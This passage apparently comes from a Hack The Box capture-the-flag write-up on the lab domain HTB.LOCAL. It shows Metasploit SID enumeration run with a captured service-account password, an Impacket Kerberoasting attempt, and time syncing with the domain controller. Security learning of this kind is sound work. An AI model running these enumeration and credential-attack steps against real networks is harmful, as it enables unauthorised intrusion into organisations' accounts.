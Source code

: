 
    Auxiliary action:

      Name   Description
      ----   -----------
      LOCAL  Enumerate local accounts


    msf5 auxiliary(scanner/smb/smb_lookupsid) > set RHOSTS 10.10.10.161
    RHOSTS => 10.10.10.161
    msf5 auxiliary(scanner/smb/smb_lookupsid) > set SMBDomain HTB.LOCAL
    SMBDomain => HTB.LOCAL
    msf5 auxiliary(scanner/smb/smb_lookupsid) > set SMBUser svc-alfresco
    SMBUser => svc-alfresco
    msf5 auxiliary(scanner/smb/smb_lookupsid) > set SMBPass s3rvice
    SMBPass => s3rvice
    msf5 auxiliary(scanner/smb/smb_lookupsid) > run

    [*] 10.10.10.161:445      - PIPE(LSARPC) LOCAL(HTB - 5-21-3072663084-364016917-1341370565) DOMAIN(HTB - 5-21-3072663084-364016917-1341370565)
    [*] 10.10.10.161:445      - USER=Administrator RID=500
    <SNIP>
    [*] 10.10.10.161:445      - USER=lucinda RID=1146
    [*] 10.10.10.161:445      - USER=svc-alfresco RID=1147
    [*] 10.10.10.161:445      - GROUP=Service Accounts RID=1148
    [*] 10.10.10.161:445      - GROUP=Privileged IT Accounts RID=1149
    [*] 10.10.10.161:445      - USER=andy RID=1150
    [*] 10.10.10.161:445      - USER=mark RID=1151
    [*] 10.10.10.161:445      - USER=santi RID=1152

We can also try to get Users SPNs

    :::text
    python GetUserSPNs.py -request htb.local/svc-alfresco:s3rvice
    Impacket v0.9.16-dev - Copyright 2002-2018 Core Security Technologies

    No entries found


We add the DC to our `/etc/resolv.conf` and install `rdate` to have the same
time as the DC.

    :::text
    cat /etc/resolv.conf
    # Generated by NetworkManager
    search home
    nameserver 192.168.1.25
    domain htb.local
    search htb.local

    apt-get install rdate

    rdate -n htb.local
    Thu Oct 24 16:22:14 CEST 2019

I know have the same time as the DC (this is super important for tickets
generation).
